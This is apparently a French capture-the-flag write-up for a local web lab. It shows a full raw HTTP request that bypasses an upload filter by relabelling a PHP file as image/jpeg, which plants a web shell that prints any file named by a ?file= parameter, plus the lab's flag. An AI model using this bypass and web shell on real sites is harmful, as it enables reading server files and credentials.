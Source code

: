 The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8


Il faut intercepter la requete Post pour upload l'image et changer 
Content-Type: application/x-php
par 
Content-Type: image/jpeg

POST /?page=upload HTTP/1.1
Host: 192.168.1.33
Content-Length: 597
Cache-Control: max-age=0
Accept-Language: fr-FR,fr;q=0.9
Origin: http://192.168.1.33
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryNHtXWgyPKt1jS4A8
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.33/?page=upload
Accept-Encoding: gzip, deflate, br
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
Connection: keep-alive

------WebKitFormBoundaryNHtXWgyPKt1jS4A8
Content-Disposition: form-data; name="MAX_FILE_SIZE"

100000
------WebKitFormBoundaryNHtXWgyPKt1jS4A8
Content-Disposition: form-data; name="uploaded"; filename="test.php"
Content-Type: application/x-php

<?php
if (isset($_GET['file'])) {
    echo "<pre>";
    echo file_get_contents($_GET['file']);
    echo "</pre>";
} else {
    echo "Veuillez fournir un fichier avec ?file=chemin_du_fichier.";
}
?>


------WebKitFormBoundaryNHtXWgyPKt1jS4A8
Content-Disposition: form-data; name="Upload"

Upload
------WebKitFormBoundaryNHtXWgyPKt1jS4A8--


